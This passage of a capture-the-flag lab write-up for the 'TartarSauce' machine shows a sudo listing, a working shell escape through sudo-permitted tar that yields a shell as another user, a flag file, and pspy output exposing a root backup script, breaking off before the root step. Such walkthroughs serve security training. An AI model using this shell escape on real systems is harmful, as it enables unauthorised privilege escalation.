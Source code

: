 ```
ww-data@TartarSauce:/usr/sbin$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
www-data@TartarSauce:/usr/sbin$ /usr/bin/sudo -u onuma tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
<bin$ /usr/bin/sudo -u onuma tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'  
$ whoami
whoami
onuma
$
```

and capture the flag

```
numa@TartarSauce:~$ pwd
/home/onuma
onuma@TartarSauce:~$ ls -al user.txt
ls -al user.txt
-r-------- 1 onuma onuma 33 Feb  9  2018 user.txt
```

## Privilege Escalation onuma to root

First see if there is anything interesting in onuma's home directory

```
onuma@TartarSauce:~$ cat .mysql_history
_HiStOrY_V2_
create\040database\040backuperer;
exit
```

Also in .nano/search_history

```
numa@TartarSauce:~/.nano$ cat search_history
cat search_history
w00t
woot
```

Both of these were just rabbit holes.

At this point I've learned to use pspy to see what is happening on the server, and there is also this time some interesting stuff happening

```
022/01/04 08:03:15 CMD: UID=0    PID=17478  | /bin/bash /usr/sbin/backuperer 
2022/01/04 08:03:15 CMD: UID=0    PID=17477  | /lib/systemd/systemd-udevd 
2022/01/04 08:03:15 CMD: UID=0    PID=17476  | /lib/systemd/systemd-udevd 
2022/01/04 08:03:15 CMD: UID=0    PID=17475  | /lib/systemd/systemd-udevd 
2022/01/04 08:03:15 CMD: UID=0    PID=17474  | /lib/systemd/systemd-udevd 
2022/01/04 08:03:15 CMD: UID=0    PID=17473  | /lib/systemd/systemd-udevd 
2022/01/04 08:03:15 CMD: UID=0    PID=17472  | /bin/bash /usr/sbin/backuperer 
2022/01/04 08:03:15 CMD: UID=0    PID=17489  | seq 72 
2022/01/04 08:03:15 CMD: UID=0    PID=17488  | /bin/bash /usr/sbin/backuperer 
2022/01/04 08:03:15 CMD: UID=0    PID=17487  | /bin/bash /usr/sbin/backuperer 
2022/01/04 08:03:15 CMD: UID=0    PID=17492  | /usr/bin/printf - 
2022/01/04 08:03:15 CMD: UID=0    PID=17536  | 
...
2022/01/04 08:03:15 CMD: UID=0    PID=17540  | /bin/bash /usr/sbin/backuperer 
2022/01/04 08:03:15 CMD: UID=0    PID=17541  | 
2022/01/04 08:03:15 CMD: UID=0    PID=17542  | /bin/bash /usr/sbin/backuperer 
```